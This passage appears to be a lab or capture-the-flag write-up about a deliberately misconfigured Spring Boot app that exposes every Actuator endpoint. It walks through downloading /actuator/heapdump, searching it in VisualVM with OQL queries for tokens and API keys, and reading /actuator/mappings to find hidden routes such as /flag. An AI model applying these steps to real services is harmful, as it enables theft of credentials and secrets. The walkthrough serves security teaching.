 -   **Server Port**: Runs the app on port `1337` (`server.port`).
-   **Actuator Endpoints**: Exposes all Actuator endpoints (`management.endpoints.web.exposure.include=*`) under the base path `/actuator` (`management.endpoints.web.base-path`).
-   **Environment Details**: Configures the `/actuator/env` endpoint to always show detailed environment information (`management.endpoint.env.show-details=always`).

<a name="how-to-exploit-this-and-leak-sensitive-datas"></a>
#### How to exploit this and leak sensitive data's

***Exposed `/heapdump` endpoint***

The `/heapdump` endpoint provides a snapshot of the Java heap, which includes memory allocation details.
We can download the heapdump file by acessing this [http://localhost:1337/actuator/heapdump](http://localhost:1337/actuator/heapdump) endpoint.

***Analysing the heapdump***

     file heapdump
     heapdump: Java HPROF dump, created Thu Dec 19 11:15:39 2024
   
   We need to analyse this heapdump via [VisualVM](https://visualvm.github.io/) and extract sensitive information.
   Open the heapdump file in VisulaVM and navigate to the <b>Heap Dump</b> tab to inspect memory objects.Open the <b>OQL(object query language) console</b> and execute queries to search for sensitive information.
   For strings containing `token	` or `key`:
   
    select s from java.lang.String s where s.toString().contains("token")
   For environment like variables:
   
    select s from java.lang.String s where s.toString().contains("apiKey")
   Results may reveal <b>access tokens, API keys or credentials</b> stored in memory.
   
![enter image description here](https://raw.githubusercontent.com/dasandco/springimages/refs/heads/main/Screenshot%20from%202024-12-19%2018-37-26.png)

***Exposed `/mappings` endpoint***

The `/mappings` endpoint provides information about the application’s request mappings.
We can access this via [http://localhost:1337/actuator/mappings](http://localhost:1337/actuator/mappings) .
```
{
              "predicate": "{GET [/internal-endpoint-leak]}",
              "handler": "com.blogs.blog.controller.BlogController#internal()",
              "details": {
                "handlerMethod": {
                  "className": "com.blogs.blog.controller.BlogController",
                  "name": "internal",
                  "descriptor": "()Ljava/lang/String;"
                },
                "requestMappingConditions": {
                  "consumes": [],
                  "headers": [],
                  "methods": [
                    "GET"
                  ],
                  "params": [],
                  "patterns": [
                    "/internal-endpoint-leak"
                  ],
                  "produces": []
                }
              }
            },
            {
              "predicate": "{GET [/flag]}",
              "handler": "com.blogs.blog.controller.BlogController#secret()",
```